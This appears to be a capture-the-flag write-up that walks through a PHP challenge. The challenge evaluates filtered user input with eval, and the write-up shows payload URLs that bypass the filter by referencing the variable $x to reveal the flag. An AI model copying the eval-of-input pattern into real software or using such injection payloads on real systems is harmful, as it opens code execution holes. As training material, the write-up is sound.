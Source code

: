 # Challenge description

Dali likes PhP because it's weird and has a lot of bugs. Is that really true ?
Link: http://20.119.58.135:1234

**Author: Kahla**

-----------------------------------------------------------

we were provided this php source code

```php

<?php
//Show Page code source
highlight_file(__FILE__);
require "secret.php";
if(isset($_GET["__"])&&isset($_GET["_"])){
$x=$_GET["__"];
$inp=preg_replace("/[^A-Za-z0-9$]/","",$_GET["_"]);
if($inp==="Kahla"){
    die("Hacking Attempt detected");
}
else{
    if(eval("return $inp=".$inp.";")==="Kahla"){
        echo $flag;
    }
    else{
        die("Pretty Close maybe ?");
    }
}
}
?>

```

trying to send **"Kahla"** in the **_** param prints out this prompt

![a](https://user-images.githubusercontent.com/58823465/151814781-7f079c2b-0cf4-42eb-8a71-250713e79fca.png)


Payload : ``` http://20.119.58.135:1234/?__=&_=Kahla; ``` 

Output : ```Hacking Attempt detected```

We notice that we have the other **__** param too that we haven't trie to use yet 
and it seems sorta useless but its there soo we might as well just use it right?

So we know that the code is filtering the word **Kahla** and won't allow us to get the flag with it 
so how about we use the **__** to send it to the **_** param? since it's not verifying that param

Payload : ``` http://20.119.58.135:1234/?__=Kahla&_=$_GET[__] ```

Output : ![6](https://user-images.githubusercontent.com/58823465/151814811-b5b61141-c69c-47ba-a3dd-73827772fffc.png)


well i guess we're pretty close :/ ?
We can't use the **GET** to send the param because the regex won't allow the [] characters 
But notice that we have a **$x** variable in the source code that takes the **__** value !!
all we need to do is just to pass that through the **_** param

Payload : ``` http://20.119.58.135:1234/?__=Kahla&_=$x ```

Output : ``` Securinets{PeehPee_1s_AlWAYs_H3r3} ```

And there's our flag!





